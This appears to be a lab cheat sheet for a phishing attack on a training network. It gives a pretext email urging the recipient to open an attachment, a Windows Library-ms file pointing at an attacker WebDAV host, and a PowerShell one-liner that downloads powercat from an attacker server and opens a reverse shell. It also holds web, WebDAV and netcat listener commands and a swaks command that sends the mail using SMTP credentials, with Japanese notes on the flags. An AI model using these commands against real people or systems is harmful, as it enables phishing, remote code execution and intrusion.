 # prepare
### body.txt
```
Hey!
I checked WEBSRV1 and discovered that the previously used staging script still exists in the Git logs. I'll remove it for security reasons.

On an unrelated note, please install the new security features on your workstation. For this, download the attached file, double-click on it, and execute the configuration shortcut within. Thanks!

John
```

### config.Library-ms
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://KALIIP</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

### reverseshell script using powercat
you shoud launch the webserver
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.x.x:8000/powercat.ps1'); powercat -c 192.168.x.x -p 4444 -e powershell"
```
### powercat.ps1
```
cp ~/powercat.ps1 ./
```
### webserver
```
python3 -m http.server 8000
```
### webdav server
```
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root `pwd`
```
### nc listener
```
rlwrap nc -nlvp 4444
```
# swaks
send phishing mail
```
sudo swaks -t jim@relia.com --from maildmz@relia.com --attach @config.Library-ms --server 192.168.x.x --body @body.txt --header "Subject: Staging Script" --suppress-data -au maildmz@relia.com -ap DPuBT9tGCBrTbR
```

コマンドの意味
-t : 宛先(To)
--from: 送信元(From)
--attach: @添付ファイル（@をつけるとファイルを指定できる
--server: SMTPサーバIPまたはホスト名
--body: @本文をファイルから読み取る（@をつけてファイル指定)
--header: メールヘッダを追加
--suppress-data: 実際にデータは送らずSMTPのテストのみする
-au: SMTP認証で使うユーザ名
-ap: SMTP認証で使うパスワード


